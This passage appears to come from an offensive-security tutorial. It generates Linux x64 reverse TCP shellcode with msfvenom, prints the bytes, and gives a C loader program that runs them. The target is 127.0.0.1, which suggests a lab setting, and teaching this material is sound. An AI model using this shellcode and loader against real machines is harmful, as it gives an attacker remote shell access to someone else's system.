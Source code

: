 This _payload_ (`malicious.exe`) contains:

- The **shellcode** responsible for creating the reverse TCP connection.
- A **decoder stub** to decode the shellcode if encoding was used.
- All the necessary configuration data (IP, port).
- Wrapped in an executable format.

Let's generate Linux shellcode using **msfvenom** and try to execute it using C. `msfvenom` is a command-line utility that comes with the Metasploit Framework. 

Let's generate a simple Linux x64 shellcode that creates a reverse TCP shell. This is one of the most common payloads - it will connect back to our machine and give us a shell.

```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of c file: 338 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";

```

Now we need a way to execute this raw machine code. We'll create a simple C program that places our shellcode in memory and jumps to it.

Let's create a C file `shellcode_loader.c`

```c
#include <stdio.h>
#include <string.h>

// Our msfvenom-generated shellcode
unsigned char code[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";

int main() {
    printf("Shellcode Length: %zu bytes\n", strlen(code));
    
    // Cast the shellcode array to a function pointer and execute
    int (*ret)() = (int(*)())code;
    
    printf("Starting execution...\n");
    ret();
    
    // This line will only be reached if the shellcode fails
    printf("Shellcode execution completed (or failed)\n");
    return 0;
}
```
